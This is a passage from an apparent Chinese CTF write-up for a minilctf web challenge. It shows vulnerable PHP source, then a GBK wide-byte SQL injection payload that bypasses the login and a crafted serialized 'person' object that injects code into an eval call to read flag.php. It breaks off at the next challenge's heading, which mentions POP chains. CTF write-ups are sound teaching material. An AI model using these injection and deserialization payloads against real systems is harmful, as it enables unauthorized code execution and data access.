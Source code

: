 ```php
    echo "window.location.href='index.php'";  
    echo "</script>";  
```

```php
index.php
<?php
    include "flag.php";//$flag="minilctf{****}";
    session_start();
    if (empty($_SESSION['uid'])) {
        include "loginForm.html";
    }
    else{
        echo '<h1>Hello, reclu3e!</h1>';
        $p=unserialize(isset($_GET["p"])?$_GET["p"]:"");
    }
?>
<?php
class person{
    public $name='';
    public $age=0;
    public $weight=0;
    public $height=0;
    private $serialize='';
    public function __wakeup(){
        if(is_numeric($this->serialize)){
            $this->serialize++;
        }
    }
    public function __destruct(){
        @eval('$s="'.$this->serialize.'";');
    }
}
```

login逻辑是判断输入的密码和取出的usr对应的密码比较，插表，GBK+addslashes 宽字节注入

`username=reclu3e%df%27%20union%20select%201,2%23&password=2`

php反序列化漏洞，private变量名前后要用%00

`@eval('$s="'.$this->serialize.'";');`用";闭合前后

```
/index.php?p= O:6:"person":5:{s:4:"name";s:0:"";s:3:"age";i:0;s:6:"weight";i:0;s:6:"height";i:0;s:17:"%00person%00serialize";s:30:"";highlight_file("flag.php");"";}
```





### Let's_Play_Dolls| Author: blackwatch

看到foo1 foo2 foo3，想起来前段时间遇到的一个题，php反序列化中的POP链构造，现学了一会。
